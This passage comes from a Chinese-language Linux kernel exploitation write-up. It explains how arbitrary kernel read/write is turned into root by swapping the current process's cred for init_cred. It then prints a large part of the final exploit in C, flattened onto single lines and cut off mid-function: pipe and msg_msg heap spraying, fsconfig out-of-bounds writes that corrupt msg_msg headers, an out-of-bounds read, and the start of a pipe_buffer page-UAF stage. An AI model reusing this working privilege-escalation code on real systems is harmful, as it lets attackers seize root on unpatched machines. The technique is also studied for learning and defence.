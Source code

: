 通过这三个管道之间互相循环修改，我们便**实现了一个可以在内存空间中进行近乎无限制的任意读写系统** ：）

### Step.IV - 提权

有了内存空间中的任意读写，提权便是非常简便的一件事情了，这里笔者选择通过修改当前进程的 task_struct 的 cred 为 init_cred 的方式来完成提权

`init_cred` 为有着 root 权限的 cred，我们可以直接将当前进程的 cred 修改为该 cred 以完成提权，这里 iwom 可以通过 `prctl(PR_SET_NAME, "");` 修改 `task_struct.comm` ，从而方便搜索当前进程的 `task_struct` 在内存空间中的位置：）

不过 `init_cred` 的符号有的时候是不在 `/proc/kallsyms` 中导出的，我们在调试时未必能够获得其地址，因此这里笔者选择通过解析 `task_struct` 的方式向上一直找到 `init` 进程（所有进程的父进程）的 `task_struct` ，从而获得 `init_cred` 的地址

### FINAL EXPLOIT

exp 如下：

```
 Allocating pipe...");    for (int i = 0; i < PIPE_SPRAY_NR; i++) {        if (pipe(pipe_fd[i]) < 0) {            printf("[x] Failed at creating %d pipe.\n", i);            err_exit("FAILED to create pipe!");        }    }    puts("
 Allocating msg_queue and msg_msg...");    for (int i = 0; i < (MSG_SPRAY_NR - 8); i++) {        if ((msqid[i] = get_msg_queue()) < 0) {            printf("[x] Failed at allocating %d queue.\n", i);            err_exit("FAILED to create msg_queue!");        }        buf[0] = i;        buf[MSG_SZ / 8] = i;        if (write_msg(msqid[i], buf, MSG_SZ, MSG_TYPE) < 0) {            printf("[x] Failed at writing %d queue.\n", i);            err_exit("FAILED to allocate msg_msg!");        }    }    puts("
 Allocating fs->legacy_data...");    fs_fd = prepare_oob_write();    puts("
 Allocating msg_queue and msg_msg...");    for (int i = (MSG_SPRAY_NR - 8); i < MSG_SPRAY_NR; i++) {        if ((msqid[i] = get_msg_queue()) < 0) {            printf("[x] Failed at allocating %d queue.\n", i);            err_exit("FAILED to create msg_queue!");        }        buf[0] = i;        buf[MSG_SZ / 8] = i;        if (write_msg(msqid[i], buf, MSG_SZ, MSG_TYPE) < 0) {            printf("[x] Failed at writing %d queue.\n", i);            err_exit("FAILED to allocate msg_msg!");        }    }    /*    puts("\n
 Spray seq_operations...");    for (int i = 0; i < SEQ_SPRAY_NR; i++) {        if ((seq_fd[i] = open("/proc/self/stat", O_RDONLY)) < 0) {            printf("[x] Failed at creating %d seq_file.\n", i);            err_exit("FAILED to create seq_file!");        }    }*/    puts("
 fsconfig() to set the size to the &msg_msg->m_ts...");    fsconfig(fs_fd, FSCONFIG_SET_STRING, "3", "1919810ARTTNBA114514", 0);    puts("
 fsconfig() to overwrite the msg_msg->m_ts...");    fsconfig(fs_fd, FSCONFIG_SET_STRING, "\x00", "\xc8\x1f", 0);    puts("
 Tring to make an oob read...");    for (int i = 0; i < MSG_SPRAY_NR; i++) {        ssize_t read_size;        read_size = peek_msg(msqid[i], buf, OOB_READ_SZ, 0);        if (read_size < 0) {            printf("[x] Failed at reading %d msg_queue.\n", i);            err_exit("FAILED to read msg_msg!");        } else if (read_size > MSG_SZ) {            printf("\033[32m\033[1m[+] Found victim msg_msg at \033[0m"                   "%d\033[32m\033[1m msg_queue!\033[0m\n", i);            victim_qidx = i;            break;        }    }    if (victim_qidx == -1) {        err_exit("FAILED to overwrite the header of msg_msg!");    }    /*    for (int i = MSG_SZ / 8; i < (OOB_READ_SZ / 8); i++) {        if (buf[i] > 0xffffffff81000000 && ((buf[i] & 0xfff) == 0x4d0)) {            printf("
 Leak kernel text addr: %lx\n", buf[i]);            ktext_leak = buf[i];            break;        }    }    if (ktext_leak == -1) {        err_exit("FAILED to leak kernel text address!");    }    kernel_offset = ktext_leak - 0xffffffff813834d0;    kernel_base += kernel_offset;    printf("\033[32m\033[1m[+] kernel base: \033[0m%lx  ", kernel_base);    printf("\033[32m\033[1moffset: \033[0m%lx\n", kernel_offset);    */}/* for pipe escalation */#define SND_PIPE_BUF_SZ 96#define TRD_PIPE_BUF_SZ 192int orig_pid, victim_pid = -1;int snd_orig_pid = -1, snd_vicitm_pid = -1;int self_2nd_pipe_pid = -1, self_3rd_pipe_pid = -1, self_4th_pipe_pid = -1;struct pipe_buffer info_pipe_buf;void corrupting_first_level_pipe_for_page_uaf(void){    size_t buf[0x8000];    puts("\n\033[34m\033[1m"        "Stage II - corrupting pipe_buffer to make two pipes point to same page"         "\033[0m\n");    puts("
```